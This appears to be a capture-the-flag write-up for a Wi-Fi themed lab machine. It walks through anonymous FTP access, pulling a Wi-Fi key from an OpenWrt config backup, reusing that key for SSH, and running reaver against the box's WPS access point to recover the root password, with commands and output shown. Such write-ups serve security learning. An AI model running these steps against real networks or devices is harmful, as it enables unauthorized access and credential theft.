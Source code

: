 ```yaml
---
description: Wifi Box!
---
```


# Wifinetic

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 10.129.68.239 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-16 18:57 +08
Nmap scan report for 10.129.68.239
Host is up (0.020s latency).
Not shown: 52717 closed tcp ports (conn-refused), 12815 filtered tcp ports (no-response)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
53/tcp open  domain
```

FTP is open, so we should check for anonymous access.

### Anonymous FTP -> Wifi Password -> SSH

There were quite a few files within this FTP server:

```
$ ftp 10.129.68.239                                               
Connected to 10.129.68.239.
220 (vsFTPd 3.0.3)
Name (10.129.68.239:kali): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||44452|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp          4434 Jul 31 11:03 MigrateOpenWrt.txt
-rw-r--r--    1 ftp      ftp       2501210 Jul 31 11:03 ProjectGreatMigration.pdf
-rw-r--r--    1 ftp      ftp         60857 Jul 31 11:03 ProjectOpenWRT.pdf
-rw-r--r--    1 ftp      ftp         40960 Sep 11 15:25 backup-OpenWrt-2023-07-26.tar
-rw-r--r--    1 ftp      ftp         52946 Jul 31 11:03 employees_wellness.pdf
```

The most interesting is the `.tar` file that contained a backup of some sorts. When we download this and extract the files, it shows that this is the `/etc/` file:

```
$ tar -xf backup-OpenWrt-2023-07-26.tar
$ cd etc
$ ls
config    group  inittab       nftables.d  passwd   rc.local  shinit       uhttpd.crt
dropbear  hosts  luci-uploads  opkg        profile  shells    sysctl.conf  uhttpd.key
```

Within the `/etc/config` file, there was a `wireless` file. Since this was a Wifi themed box, I read the file and found a password:

```
$ cat wireless 

config wifi-device 'radio0'
        option type 'mac80211'
        option path 'virtual/mac80211_hwsim/hwsim0'
        option cell_density '0'
        option channel 'auto'
        option band '2g'
        option txpower '20'

config wifi-device 'radio1'
        option type 'mac80211'
        option path 'virtual/mac80211_hwsim/hwsim1'
        option channel '36'
        option band '5g'
        option htmode 'HE80'
        option cell_density '0'

config wifi-iface 'wifinet0'
        option device 'radio0'
        option mode 'ap'
        option ssid 'OpenWrt'
        option encryption 'psk'
        option key 'VeRyUniUqWiFIPasswrd1!'
        option wps_pushbutton '1'

config wifi-iface 'wifinet1'
        option device 'radio1'
        option mode 'sta'
        option network 'wwan'
        option ssid 'OpenWrt'
        option encryption 'psk'
        option key 'VeRyUniUqWiFIPasswrd1!'
```

The question now is whether the box is transmitting stuff over the air, or if there's a user that uses this password. Reading the `passwd` file shows us a few users:

```
root:x:0:0:root:/root:/bin/ash
daemon:*:1:1:daemon:/var:/bin/false
ftp:*:55:55:ftp:/home/ftp:/bin/false
network:*:101:101:network:/var:/bin/false
nobody:*:65534:65534:nobody:/var:/bin/false
ntp:x:123:123:ntp:/var/run/ntp:/bin/false
dnsmasq:x:453:453:dnsmasq:/var/run/dnsmasq:/bin/false
logd:x:514:514:logd:/var/run/logd:/bin/false
ubus:x:81:81:ubus:/var/run/ubus:/bin/false
netadmin:x:999:999::/home/netadmin:/bin/false
```

The `netadmin` user reused it:

<figure><img src="../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Enumeration

Since this is a Wifi box, we can check `ifconfig` for the interfaces available:

```
netadmin@wifinetic:/opt/share$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.129.68.239  netmask 255.255.0.0  broadcast 10.129.255.255
        inet6 fe80::250:56ff:feb9:501e  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef::250:56ff:feb9:501e  prefixlen 64  scopeid 0x0<global>
        ether 00:50:56:b9:50:1e  txqueuelen 1000  (Ethernet)
        RX packets 199994  bytes 14812436 (14.8 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 199850  bytes 10858403 (10.8 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 862  bytes 53092 (53.0 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 862  bytes 53092 (53.0 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

mon0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        unspec 02-00-00-00-02-00-30-3A-00-00-00-00-00-00-00-00  txqueuelen 1000  (UNSPEC)
        RX packets 6865  bytes 1209922 (1.2 MB)
        RX errors 0  dropped 6865  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

wlan0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.1  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fe80::ff:fe00:0  prefixlen 64  scopeid 0x20<link>
        ether 02:00:00:00:00:00  txqueuelen 1000  (Ethernet)
        RX packets 229  bytes 21998 (21.9 KB)
        RX errors 0  dropped 31  overruns 0  frame 0
        TX packets 288  bytes 33715 (33.7 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

wlan1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.23  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fe80::ff:fe00:100  prefixlen 64  scopeid 0x20<link>
        ether 02:00:00:00:01:00  txqueuelen 1000  (Ethernet)
        RX packets 82  bytes 10771 (10.7 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 229  bytes 26120 (26.1 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

wlan2: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500
        ether 02:00:00:00:02:00  txqueuelen 1000  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

There's a `mon0` interface listening, and checking `iwconfig` shows that it is in Monitor mode:

```
netadmin@wifinetic:/opt/share$ iwconfig
wlan2     IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
          
eth0      no wireless extensions.

wlan1     IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
          
lo        no wireless extensions.

wlan0     IEEE 802.11  Mode:Master  Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
          
hwsim0    no wireless extensions.

mon0      IEEE 802.11  Mode:Monitor  Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
```

Interesting. There wasn't much else I could do, so I ran `linpeas.sh` to enumerate for me, and it found `reaver`, a program I wasn't familiar with:

```
Files with capabilities:
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/reaver = cap_net_raw+ep
```

This tool can be used to brute force Wifi passwords out. Using this tool, combined with our Monitor mode `mon0` interface, we can start sniffing stuff from `wlan0` and `wlan1`. We can grab the ether value and feed it into `reaver`:

```
netadmin@wifinetic:/tmp$ reaver -i mon0 -b 02:00:00:00:00:00 -v

Reaver v1.6.5 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>

[+] Waiting for beacon from 02:00:00:00:00:00
[+] Received beacon from 02:00:00:00:00:00
[+] Trying pin "12345670"
[!] Found packet with bad FCS, skipping...
[+] Associated with 02:00:00:00:00:00 (ESSID: OpenWrt)
[+] WPS PIN: '12345670'
[+] WPA PSK: 'WhatIsRealAnDWhAtIsNot51121!'
[+] AP SSID: 'OpenWrt'
```

Afterwards, we can `su` to `root`:

<figure><img src="../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>
